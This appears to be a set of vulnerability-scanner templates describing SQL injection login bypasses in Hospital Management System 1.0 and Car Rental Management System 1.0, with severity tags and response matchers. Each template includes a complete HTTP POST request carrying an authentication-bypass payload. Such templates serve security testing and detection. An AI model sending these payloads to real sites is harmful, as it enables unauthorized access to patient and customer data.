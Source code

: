 **Type - status**
- status
    1. 200

---
# Hospital Management System 1.0 - SQL Injection
## Description
- Hospital Management System 1.0 contains a SQL injection vulnerability via the editid parameter in /HMS/admin.php. An attacker can possibly obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.

- severity - high
- tags - cve,cve2022,hms,cms,sqli
## Requests
### Step - 1
```
POST /hms/admin/ HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

username=admin%27+or+%271%27%3D%271%27%23&password=admin%27+or+%271%27%3D%271%27%23&submit=

```
### Matchers

**Type - word**
- part - body
- words
    1. <title>Admin  | Dashboard</title>
    2. Manage Patients
    3. Manage Doctors
- condition - and

**Type - status**
- status
    1. 200

---
# Car Rental Management System 1.0 - SQL Injection
## Description
- Car Rental Management System 1.0 contains an SQL injection vulnerability via /admin/ajax.php?action=login. An attacker can possibly obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.

- severity - high
- tags - cve,cve2022,carrental,cms,sqli,login-bypass
## Requests
### Step - 1
```
POST /admin/ajax.php?action=login HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

username=admin'+or+'1'%3D'1'%23&password=admin

```